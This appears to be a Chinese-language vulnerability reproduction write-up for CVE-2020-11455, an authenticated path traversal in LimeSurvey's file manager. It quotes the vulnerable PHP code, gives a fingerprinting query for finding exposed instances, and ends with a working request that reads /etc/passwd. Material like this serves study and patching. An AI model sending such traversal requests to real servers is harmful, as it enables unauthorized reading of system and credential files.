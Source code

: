 # LimeSurvey LimeSurveyFileManager.php 后台任意文件读取漏洞 CVE-2020-11455

## 漏洞描述

LimeSurvey（前称PHPSurveyor）是LimeSurvey团队的一套开源的在线问卷调查程序，它支持调查程序开发、调查问卷发布以及数据收集等功能。
LimeSurvey 4.1.12 + 200324之前版本中的application/controllers/admin/LimeSurveyFileManager.php文件存在路径遍历漏洞。该漏洞源于网络系统或产品未能正确地过滤资源或文件路径中的特殊元素。攻击者可利用该漏洞访问受限目录之外的位置。

## 漏洞影响

LimeSurvey < 4.1.12 + 200324</a-checkbox></br>

## 网络测绘

app="LimeSurvey"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1650453876458-96aaea24-21f4-4ffb-9339-c596d9c4fc87.png)

出现漏洞的文件为 `application/controllers/admin/LimeSurveyFileManager.php`

![img](../../../.vuepress/public/img/1650453992802-1393b9ad-1a7f-41ba-b80c-5f2058c4bfc7-20220420194636996.png)

```php {14-19}
public function downloadFiles() {
        App()->loadLibrary('admin.pclzip');
        
        $folder = basename(Yii::app()->request->getPost('folder', 'global'));
        $files = Yii::app()->request->getPost('files');

        $tempdir = Yii::app()->getConfig('tempdir');
        $randomizedFileName = $folder.'_'.substr(md5(time()),3,13).'.zip';
        $zipfile = $tempdir.DIRECTORY_SEPARATOR.$randomizedFileName;
        $arrayOfFiles = array_map( function($file){ return $file['path']; }, $files);
        $archive = new PclZip($zipfile);
        $checkFileCreate = $archive->create($arrayOfFiles, PCLZIP_OPT_REMOVE_ALL_PATH);
        $urlFormat = Yii::app()->getUrlManager()->getUrlFormat();
        $getFileLink = Yii::app()->createUrl('admin/filemanager/sa/getZipFile');
        if($urlFormat == 'path') {
            $getFileLink .= '?path='.$zipfile;
        } else {
            $getFileLink .= '&path='.$zipfile;
        }

        $this->_printJsonResponse(
            [
                'success' => true,
                'message' => sprintf(gT("Files are ready for download in archive %s."), $randomizedFileName),
                'downloadLink' => $getFileLink ,
            ]
        );
    }
```

路由为: `admin/filemanager/sa/getZipFile`, 这里传入参数 path 到方法 `getZipFile()`中

![img](../../../.vuepress/public/img/1650454603065-aa5fbb1b-b8bb-4a45-ad2f-c86dd87ce2f5-20220420194643953.png)

这里通过 readfile方法 读取文件，登录后台后发送请求

```php
/index.php/admin/filemanager/sa/getZipFile?path=/../../../../../../../etc/passwd
```

![img](../../../.vuepress/public/img/1650454764306-b899ea3a-16f0-4fdb-b4a1-80df09dd17e4.png)